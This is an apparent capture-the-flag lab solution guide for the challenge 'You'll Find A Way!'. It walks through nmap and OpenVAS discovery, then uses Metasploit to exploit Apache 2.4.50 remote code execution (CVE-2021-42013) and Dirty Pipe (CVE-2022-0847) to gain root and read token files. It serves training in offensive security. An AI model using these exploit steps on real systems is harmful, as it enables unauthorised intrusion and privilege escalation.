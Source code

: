# You'll Find A Way! 

*Solution Guide*

## Overview

This solution guide walks you through finding and exploiting vulnerable services to obtain challenge tokens. All answers for *You'll Find A Way!* are generated dynamically. The format for the answers is a first name, followed by a last name and then a two digit number. The format is CamelCase with no spaces. For example: `JohnDoe23`.

## Question 1

### Network discovery
1. Check your IP address on the `analyst` VM: `ip a`

2. Now that you know your IP address, scan the network using `nmap` to see which additional hosts and open ports are available.

   Since your IP address is in the `10.5.5.0` network and you have a subnet mask of `/24`, use the following command to scan the network: `nmap -sV 10.5.5.0/24`

   The purpose of the `-sV` parameter is to determine the version of the service running on the ports discovered on each host. Here is a screen capture of a similar output. **Your IP addresses might be different**.

![Image 1](./img/img_1.png)

>**Note:** For the rest of this guide, we will use `10.5.5.120` as the `analyst` box IP address and `10.5.5.56` as the IP address for the `outdated-xeno` box. Your IPs might be different than the ones found in this guide. 

There is an additional box (`outdated-xeno`) with two services on different open ports: ssh on port `22` 	and http on `80`. The service running on port `22` is `OpenSSH version 9.0p1` and the service running on port `80` is `Apache version 2.4.50`. 

4. Since port 80 is open, navigate to `http://10.5.5.56:80` on Firefox and notice the website is under construction. 

### Scanning discovered IP for vulnerabilities

>OpenVAS is stopped on startup to avoid consuming resources.

1. Using the information gathered above, scan the IP address you found for any known vulnerabilities. First, start OpenVAS using the following command: `sudo gvm-start`
1. Once OpenVAS starts, it should open the web interface automatically. If it didn't, then open Firefox and navigate to the following URL: `https://127.0.0.1:9392` and use the provided OpenVAS credentials: `username: admin | password: admin`.
1. Navigate to the `Scans` tab. Hover over the "magic wand" on the upper left, then click **Task Wizard**. Now, you can enter the IP you discovered (`10.5.5.56` in this guide) and click **Start Scan**. This will automatically begin to scan the provided IP address for vulnerabilities. 
4. The scan should take less than 15 minutes. The progress of the scan is shown on the **Scans** tab, under **Tasks**.  To see the vulnerabilities found, hover the **Scans** tab and click **Vulnerabilities**. 

5. Once the scan finishes, on the **Vulnerabilities** tab,  notice there is a **High Severity Vulnerability** found related to the **Apache HTTP Server 2.4.49 - 2.4.50**. If you select this vulnerability, you can see valuable information, including the CVE related to this vulnerability. In this case, the **CVE is CVE-2021-42013**. This vulnerability allows an attacker to achieve remote code execution (RCE). Let's get to work. 

### Apache 2.4.50 vulnerability exploit

1. Since you know the vulnerability allows RCE, let's see if Metasploit has an exploit we can use. Let's open metasploit with the following command: `msfconsole`
2. Once metasploit opens, use the search command to see if there is an exploit for the CVE you found: `search CVE-2021-42013`
3. Great news, you found two exploits. By reading the **Description**, the first one looks like it would help us better because the other one says it is just a scanner. Enter the following command: `use 0`
4. Let's see how to configure this exploit to work correctly: `show options`
5. We want to focus first on the ones that are `Required` such as RHOSTS, RPORT and LHOST. `RHOSTS` stands for `Remote Hosts`, `RPORT` stands for `Remote Port` and `LHOST` stands for `Local Host`. To set the new values for this settings, type the following commands. 
```
set RHOSTS 10.5.5.56
set RPORT 80
set LHOST 10.5.5.120
```
6. Since the port doesn't require negotiating any SSL for outgoing connections, you need to also change the `SSL` setting: `set SSL false`

7. Now that the options are set, run the exploit: `run`

You should now have a Meterpreter session open.

### User navigation on Meterpreter

1. Now that you have a Meterpreter session, figure out which user you obtained access to: `getuid`
2. You have access to `user`. Since you know the first flag is on the `user`'s Desktop, you can navigate there with the following command: `cd /home/user/Desktop/`
3. See what files are there: `ls`
4. You will see a file named **token1.txt** and another one called **IMPORTANT.txt**. Read the contents of `token1.txt` first: `cat token1.txt`
   You found the first token on the `user` Desktop. 
5. Read the other file: `cat IMPORTANT.txt` 
6. Based on this document, the kernel version of this image is outdated. Do a quick Open Source Intelligence (OSINT) to find out what's wrong. You should find that this kernel version has a vulnerability known as **The Dirty Pipe** vulnerability (CVE-2022-0847). 
>Make sure to keep this Meterpreter session **open** since you will be using it in the second part of this challenge.

## Question 2

### The Dirty Pipe vulnerability

Exploiting The Dirty Pipe vulnerability allows overwriting data in local, arbitrary read-only files. This can lead to privilege escalation because unprivileged processes can inject code into root processes. We'll continue using our part Metasploit session to exploit this vulnerability.

1. From the same Meterpreter session you had open, run: `background`
   The `background` command sends your Meterpreter session to the background and returns you to the Metasploit console. Hence, if you type the following command, it will show you the running sessions. 
   Make sure to write down or remember your session ID: `sessions`
2. Having the previous session running in the background will allow you to run an additional exploit on that session. Here's how this works.
3. Start by searching for an exploit for The Dirty Pipe vulnerability: `search CVE-2022-0847`
4. Notice there is only one exploit to choose. Let's use it: `use 0`
5. Once you choose the exploit, you need to see how to configure it to work correctly. Let's start by seeing the options available: `show options`
6. The first setting we want to configure is the **SESSION**. Use the session ID you wrote down (or remembered) here. In our case, it was session ID `1`: `set SESSION 1`
7. Then, let's set the other **REQUIRED** field which is LHOST: `set LHOST 10.5.5.120`
8. Once you finish configuring your exploit options, run the exploit: `run`

### Root access obtained

1. You now have a new Meterpreter shell available; verify the current user: `getuid`
2. And, just like that, you are root! The description of the challenge tells you that the second flag should be on the `/root/` directory. Navigate there: `cd /root/`
3. To see what's in the directory, type: `ls`
4. You should see a file called **token2.txt**. Read its contents: `cat token2.txt`

...and you should now have the second flag.
